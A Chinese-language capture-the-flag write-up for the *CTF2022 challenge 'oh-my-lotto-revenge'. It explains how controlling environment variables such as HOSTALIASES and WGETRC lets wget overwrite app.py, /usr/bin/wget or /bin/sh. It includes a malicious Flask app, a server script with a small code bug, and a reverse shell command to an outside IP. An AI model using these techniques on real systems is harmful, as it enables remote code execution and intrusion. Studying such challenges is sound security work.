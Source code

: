 # [*CTF2022] oh-my-lotto-revenge


## New

相对于[oh_my_lotto](https://www.huamang.xyz/index.php/archives/152/#h2ZAoFX0WCRWOf64MY)，revenge进行了下面的更改

![image-20220419222428531](https://tuchuang.huamang.xyz/img/image-20220419222428531.png)

![image-20220419222450446](https://tuchuang.huamang.xyz/img/image-20220419222450446.png)

这么做，我们能走的就只有RCE了，而这里唯一能操作的一个地方就是这里，可以操作环境变量

```python
os.environ[lotto_key] = lotto_value
```

这里有几个非预期解，先看看预期解

## Intented writeup

这里可以操控环境变量，那么我们能做的事情就很多了，预期解是操控`HOSTALIASES`修改hosts

因为他的wget是通过域名下载的

```python
os.system('wget --content-disposition -N lotto')
```

我们把伪造的hosts文件通过forecast路由传到服务器，然后修改环境变量把hosts指向`/app/guess/forecast.txt`

剩下的就是如何利用了，可以发现wget的参数是`--content-disposition -N`

对于这个参数的意义，我在谷歌找到了如下定义：他是可以由服务器端决定下载的文件，-N表示文件名不变进行覆盖

![image-20220419232146985](https://tuchuang.huamang.xyz/img/image-20220419232146985.png)、

这样的话，我们就可以操控他下载的文件，去进行覆盖app.py

我查找了这个http头的[语法](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Disposition#%E4%BD%9C%E4%B8%BA%E6%B6%88%E6%81%AF%E4%B8%BB%E4%BD%93%E4%B8%AD%E7%9A%84%E6%B6%88%E6%81%AF%E5%A4%B4)

我们只需要在http头指定app.py即可把恶意的app.py覆盖掉源文件

![image-20220419232610529](https://tuchuang.huamang.xyz/img/image-20220419232610529.png)

这样的话我们就可以编写如下poc

app.py

```
import flask
import os

app = flask.Flask(__name__)
@app.route("/rce")
def rce():
    return str(os.popen('env').read())

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

main.py

```
import flask
import os

app = flask.Flask(__name__)
@app.route("/")
def index():
    with open('app.py','rb') as f:
        res = f.read()
    r = flask.make_response(res)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8899)
```

在服务器启动main.py，然后上传伪造hosts文件

```
# hosts
lotto domain
```

然后在lotto页面修改环境变量

```
HOSTALIASES
/app/guess/forecast.txt
```

![image-20220420000125065](https://tuchuang.huamang.xyz/img/image-20220420000125065.png)

然后在服务器添加反代，把8899端口转发到80端口

![image-20220420010655831](https://tuchuang.huamang.xyz/img/image-20220420010655831.png)

可以发现app.py成功被覆盖

![image-20220420011927033](https://tuchuang.huamang.xyz/img/image-20220420011927033.png)

但是发现他还是原来的服务

![image-20220420012154011](https://tuchuang.huamang.xyz/img/image-20220420012154011.png)

是因为服务是gunicorn搭建起来的，他更新py文件以后不会实时更新，而gunicorn有一个`pre-forked worker`机制，当某个worker超时以后，就会让gunicorn重启该worker

我们可以抓包进行爆破服务让他崩溃重启

![image-20220420012722538](https://tuchuang.huamang.xyz/img/image-20220420012722538.png)

崩溃后，成功拿到flag

![image-20220420012625604](https://tuchuang.huamang.xyz/img/image-20220420012625604.png)

预期解至此

## Unintented writeup

非预期解，这里我只知道一直就是利用`WGETRC`，配合`http_proxy`和`output_document`，覆盖本地的wget应用，然后利用wget完成RCE



查[官方文档](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Location.html)可知，wget会找环境变量WGETRC，加载wgetrc文件

![image-20220420015237967](https://tuchuang.huamang.xyz/img/image-20220420015237967.png)

而具体利用wgetrc就是看这篇[官方文档](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Commands.html)

这样的话，就是通过上传我们构造的wgetrc去进行攻击

这里注意了这几个配置项

```
# 把记录写到file里
output_document = file
		Set the output filename—the same as ‘-O file’.

# 设置HTTP代理
http_proxy = string
Use string as HTTP proxy, instead of the one specified in environment.
```

我在本机测试了一下，设置了http_proxy以后，wget下载的都是代理服务器的文件

通过这个代理服务器，我们可以通过修改代理服务器的东西去修改返回值，然后利用output_document进行覆盖

### 0x01

因为我们只能执行wget，所以我们直接索性覆盖wget

构造如下wgetrc文件

```
output_document = /usr/bin/wget
http_proxy = test.huamang.xyz
https_proxy = test.huamang.xyz
```

在代理服务器开一个80端口的web服务，写着反弹shell的命令

```
#!/bin/bash
bash -c "bash -i < /dev/tcp/10.211.55.4/8888 1<&0 2<&0"
```

![image-20220420021548280](https://tuchuang.huamang.xyz/img/image-20220420021548280.png)

把文件传上去，然后去lotto路由修改`WGETRC`的值为`/app/guess/forecast.txt`

然后触发wget命令，拿到flag

![image-20220420031942691](https://tuchuang.huamang.xyz/img/image-20220420031942691.png)

但是这个方法不够优雅，会覆盖掉wget，让其他选手没有体验感

### 0x02

WGETRC还有一个参数

```
use_askpass=/bin/xxx
```

通过这个参数可以直接执行二进制文件，但是wget下载的文件，是没有x权限的，无法执行

所以我们可以通过覆盖掉/bin/sh后（题目使用的是/usr/bin/），再利用这个参数去执行他

所以具体步骤是：

首先上传如下文件，覆盖掉可以执行文件

```
output_document = /bin/sh
http_proxy = test.huamang.xyz
https_proxy = test.huamang.xyz
```

然后上传use_askpass参数去执行命令

```
use_askpass=/bin/sh
```

成功RCE

![image-20220420034358312](https://tuchuang.huamang.xyz/img/image-20220420034358312.png)

